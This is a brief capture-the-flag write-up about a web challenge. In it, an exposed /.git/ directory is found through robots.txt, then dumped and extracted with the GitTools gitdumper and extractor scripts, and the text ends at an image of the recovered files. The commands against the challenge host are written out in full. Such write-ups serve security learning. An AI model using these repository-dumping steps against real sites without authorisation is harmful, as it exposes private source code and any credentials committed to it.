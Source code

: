 # Writeup
This challenge is related to git
### Challenge available at `http://54.221.119.174/`

If you try `http://54.221.119.174/robots.txt` you will see ```/.git/``` is available 

Let use GitTools to pull ```/.git/``` folder

```./GitTools/Dumper/gitdumper.sh http://54.221.119.174/.git/ repo```

After that use extractor tool to extract 

```./GitTools/Extractor/extractor.sh repo doom```

We will have two folders with name 
```
0-d6f105ce9f43597523b47a81bd80d401f2b0b41a
1-e044ce1aba756d98ab5e4c063d5008b6d5a228e8
```
And in folder 1-e044ce1aba756d98ab5e4c063d5008b6d5a228e8 we have

![Image](https://github.com/quanght55/CTFWriteups/blob/master/svattt2017/tieuphong/images/tieuphong-extracted.png) 
